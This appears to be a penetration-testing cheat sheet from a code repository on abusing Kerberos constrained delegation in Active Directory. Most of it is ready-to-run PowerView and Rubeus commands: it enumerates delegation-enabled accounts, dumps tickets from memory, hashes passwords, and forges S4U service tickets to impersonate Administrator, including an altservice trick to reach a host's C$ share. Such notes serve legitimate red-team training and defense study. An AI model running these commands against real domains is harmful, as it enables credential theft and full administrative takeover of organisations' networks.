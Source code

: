 # Constrained Delegation

## Enumeration
```powershell
# Get computer Constrained Delegation
Get-DomainComputer -TrustedToAuth| Select DnsHostName, UserAccountControl, msds-allowedtodelegateto | FL

# Get user Constrained Delegation
Get-DomainUser -TrustedToAuth
```
## Obtain ticket for compromised account with Constrained Delegation
- This step not required if we have a RC4 or AES256 hash for the account
- If you have a plaintext password for the account, we can simply hash it with Rubeus

```powershell
# Do this if you only have a password of the constrained delegation account
Invoke-Rubeus -Command "hash /username:user /password:password /domain:security.local"
```

```powershell
# If the constrained delegation account is a machine account
# and you do not already have credential material for it
Invoke-Rubeus -Command "triage"
Invoke-Rubeus -Command "dump /nowrap /luid:[LUID] /service:[krbtgt] /user:[Hostname] /nowrap"
```

## Obtain a TGS
In this part of the attack chain we are aiming to utilize the constrained delegation accounts `msds-allowedtodelegateto` value to generate a service ticket for which another user can access those SPNs.

### Caveats
If the value in `msds-allowedtodelegateto` ends in a specified port number such as `mssqlsvc/cdc01.prod.corp1.com:1433` then it is not possible to make use of `/altservice` as when changing the flag to CIFS for example, would ultimately render the value to `cifs/cdc01.prod.corp1.com:1433` which of course, SMB is not valid over port 1433.

It is not possible to impersonate users who are a member of the group `Protected Users` or who have the flag `The Account is sensitive and cannot be delegated setting` enabled.

## Scenario 1: Same Service

- The user IISsvc is configued for constrained delegation (`TRUSTED_TO_AUTH_FOR_DELEGATION`)
- The user IISSvc has a SPN set to `mssqlsvc/cdc01.prod.corp1.com:1433`
- We can change the sname value in the service ticket to instead create a TGS for the administrator to access `mssqlsvc/cdc01.prod.corp1.com:1433`.
- Once the ticket is geneated, we inject it into the current session


```powershell
# Using a TGT for IISsvc to request a TGS for the SPN mssql/dc01.security.local and impersonate a privileged user
Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /user:IISsvc /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ticket:[Base64 ticket] /nowrap"

# Option 2
# If we know the RC4 or AES256 hash of the compromised account with delegation configured already
Invoke-Rubeus -Command "s4u /impersonateuser:administrator /user:iissvc /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt"

# Validate
.\SQLRecon.exe /a:WinToken /h:cdc01.prod.corp1.com /m:whoami
```

## Scenario 2: Alternate Service
- The user IISsvc is configued for constrained delegation (`TRUSTED_TO_AUTH_FOR_DELEGATION`)
- The user IISSvc has a SPN set to `http/cdc01.prod.corp1.com`
- We can change the sname value in the service ticket to instead create a TGS for the administrator to access `cifs/cdc01.prod.corp1.com`.
- Once the ticket is geneated, we inject it into the current session
```powershell
# Using a TGT for IISsvc to request a TGS for the SPN mssql/dc01.security.local and impersonate a privileged user
Invoke-Rubeus -Command "s4u /impersonateuser:administrator /user:iissvc /ticket:[Base64 Ticket] /msdsspn:http/cdc01.prod.corp1.com /ptt /altservice:cifs"

# Option 2
# If we know the RC4 or AES256 hash of the compromised account with delegation configured already
Invoke-Rubeus -Command "s4u /impersonateuser:administrator /user:iissvc /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /msdsspn:http/cdc01.prod.corp1.com /ptt /altservice:cifs"

# Validate
dir \\cdc01.prod.corp1.com\c$
```
### Note
It is possible to specify multiple alternative services within a single command
```powershell
/altservice:cifs,http,host,ldap,wsman,rpcss,mssql
```





